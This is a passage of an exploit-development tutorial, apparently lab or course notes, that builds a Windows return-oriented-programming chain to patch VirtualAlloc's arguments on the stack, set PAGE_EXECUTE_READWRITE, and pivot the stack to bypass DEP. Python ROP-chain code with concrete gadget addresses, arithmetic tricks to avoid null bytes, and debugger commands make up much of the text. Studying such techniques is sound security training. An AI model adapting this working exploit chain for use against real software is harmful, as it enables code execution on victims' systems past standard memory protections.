 We find that the ADD operation created the correct value in EAX (0x1000), which was then used to patch the placeholder argument on the stack.

The last argument is the new memory protection value, which, in essence, is what allows us to bypass DEP. We want the enum PAGE_EXECUTE_READWRITE, which has the numerical value 0x40.

In order to write that to the stack, we will reuse the same technique we did for flAllocationType.
	? 40 - 80808080
	? 80808080 + 7f7f7fc0
	
According to the additions, we can use the values 0x80808080 and 0x7f7f7fc0 to obtain the desired value of 0x40

rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
...
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret 
rop += pack("<L", (0x80808080)) # first value to be added
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0x7f7f7fc0)) # second value to be added
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
rop += pack("<L", (0x5051e4db)) # int3 ; push eax ; call esi
rop += b"C" * (0x400 - 276 - 4 - len(rop))

After the last gadget, which writes the flProtect argument to the stack, we add an additional gadget. This gadget's first instruction is a software breakpoint and will not be part of the final exploit. This will allow us to execute the entire ROP chain and catch the execution flow just after the flProtect dummy value has been patched.
	g
	dds esi - 14 L6


Executing VirtualAlloc

When the ROP chain is finished patching the arguments for VirtualAlloc, ESI will contain the stack address of the last argument (flProtect). To obtain the stack address where VirtualAlloc was patched, we can move the contents of ESI into EAX and subtract a small value from it.

Any small value will contain null bytes, so instead we can leverage the fact that when 32-bit registers overflow, any bits higher than 32 will be discarded. Instead of subtracting a small value that contains null bytes, we can add a large value. This will allow us to align EAX with the VirtualAlloc address on the stack.

Once EAX contains the correct address, we move its content into EBP through an XCHG EAX, EBP; RET gadget. Finally, we can move the contents of EBP into ESP with the gadget we initially found.

The gadget that moves EBP into ESP has a side effect of popping a value into EBP. We must compensate for this and configure the stack so that a dummy DWORD just before the VirtualAlloc address is popped into EBP.

rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
...
rop += pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xffffffe8)) # negative offset value
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x5051571f)) # xchg eax, ebp ; ret
rop += pack("<L", (0x50533cbf)) # mov esp, ebp ; pop ebp ; ret
rop += b"C" * (0x400 - 276 - 4 - len(rop))
